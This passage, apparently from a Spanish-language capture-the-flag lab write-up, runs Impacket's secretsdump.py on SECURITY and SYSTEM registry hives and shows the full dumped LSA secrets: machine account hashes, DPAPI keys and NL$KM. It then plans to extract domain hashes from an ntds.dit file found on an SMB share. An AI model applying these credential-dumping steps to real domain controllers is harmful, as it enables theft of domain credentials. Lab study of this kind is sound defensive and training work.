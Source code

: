 Los dumpeamos: 

```bash
secretsdump.py -security security -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x6f961da31c7ffaf16683f78e04c3e03d
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:507fdb105d9322cf53420c95780adf5f2dcdac7ca14f8b37188370c916a3fa6f2a511bb284aeac71211c939a866a2b4cc02c408e1d242ad4f5cc8f7b85d2448c18d23fb47f7b9b543a6cfb8999e40037f23dbfd8690869753979d15fe61bdcddb0ccff3d20c275207ca93e844c3b5aa1f658198225b3e54f90e0b71aaf76ba32bb1b598d189b6696c27d04674fd4c4f2c09d0df2e59fe93850aa928be813be3bd659f0d2ecba6e34fb5a3880db8155cf77e21eb44d63e1ae65abcc2aa5bdfb6bfe85e8590329929522aae501ba86d8622918e37b41daef8a2b00e78440d13e88a31fc14714923bba6fb99e13c81b3020
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:9ddb6f4d9d01fedeb4bccfb09df1b39d
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x85ec8dd0e44681d9dc3ed5f0c130005786daddbd
dpapi_userkey:0x22043071c1e87a14422996eda74f2c72535d4931
[*] NL$KM 
 0000   31 BF AC 76 98 3E CF 4A  FC BD AD 0F 17 0F 49 E7   1..v.>.J......I.
 0010   DA 65 A6 F9 C7 D4 FA 92  0E 5C 60 74 E6 67 BE A7   .e.......\`t.g..
 0020   88 14 9D 4D E5 A5 3A 63  E4 88 5A AC 37 C7 1B F9   ...M..:c..Z.7...
 0030   53 9C C1 D1 6F 63 6B D1  3F 77 F4 3A 32 54 DA AC   S...ock.?w.:2T..
NL$KM:31bfac76983ecf4afcbdad0f170f49e7da65a6f9c7d4fa920e5c6074e667bea788149d4de5a53a63e4885aac37c71bf9539cc1d16f636bd13f77f43a3254daac
[*] Cleaning up...
```

Pero no encuentro nada interesante ni nada que pueda crackear mediante fuerza bruta

Seguimos enumerando `SMB`

Al seguir buscando por el recurso en el directorio `Active Directory`, veo estos dos archivos.

<p align="center">
<img src="/assets/images/pg-writeup-resourced/Pasted image 20250225141703.png">
</p>

Uno de los archivos es `ntds.dit`, donde se almacenan todas las credenciales del dominio (en forma de hashes) junto con otros datos relacionados con las cuentas de usuario y grupos. Aunque se suele decir que las credenciales están 'en memoria', en realidad están almacenadas en este archivo en el disco del controlador de dominio. Podría intentar 'dumpearlo' (extraer la información), ya que tenemos acceso también al archivo `SYSTEM`, que contiene las claves de protección necesarias para acceder al contenido del archivo `ntds.dit` y descifrar las contraseñas.
